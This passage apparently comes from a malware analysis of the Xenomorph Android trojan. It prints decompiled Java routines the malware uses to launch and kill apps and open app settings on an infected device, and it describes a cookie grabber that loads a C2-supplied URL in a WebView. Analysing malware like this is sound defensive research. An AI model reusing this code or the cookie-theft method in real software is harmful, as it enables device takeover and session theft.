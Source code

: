 #### 3- Application Control Utils

Xenomorph now can Run other apps on the infected device in addition to killing another app process as well.

##### A- Run an app

```java
    public static boolean startApplicationByPackage(Context context, String str) {
        try {
            context.startActivity(context.getPackageManager().getLaunchIntentForPackage(str).addFlags(268435456));
            return true;
        } catch (Exception e) {
            e.printStackTrace();
            return false;
        }
    }
```

##### B- Kill an App

```java
    public static void killApplicationByPackage(Context context, String str) {
        List<ApplicationInfo> installedApplications = context.getPackageManager().getInstalledApplications(0);
        ActivityManager activityManager = (ActivityManager) context.getSystemService("activity");
        String packageName = context.getApplicationContext().getPackageName();
        for (ApplicationInfo applicationInfo : installedApplications) {
            if ((applicationInfo.flags & 1) != 1 && !applicationInfo.packageName.equals(packageName) && applicationInfo.packageName.equals(str)) {
                activityManager.killBackgroundProcesses(applicationInfo.packageName);
            }
        }
    }
```

##### C- Launch App settings (Not Implemented)

This is supposed to open the settings screen for a specific application on the infected device.

```java
    public static void openApplicationSettings(Context context, String str) {
        Intent intent = new Intent("android.settings.APPLICATION_DETAILS_SETTINGS", Uri.parse("package:" + str));
        intent.addCategory("android.intent.category.DEFAULT");
        intent.setFlags(268435456);
        context.startActivity(intent);
    }
```

#### 4- Cookies Grabber

It starts a new intent launching the `CookieGrabberActivity` which sets up a WebView to load a specific URL (specified by the C2 and saved in `CURD` in the shared preferences). It enables JavaScript in the WebView, sets up a WebViewClient to handle page loading events, and adds a JavaScript interface (WebAppInterface) to communicate between JavaScript running in the WebView and the Android application.
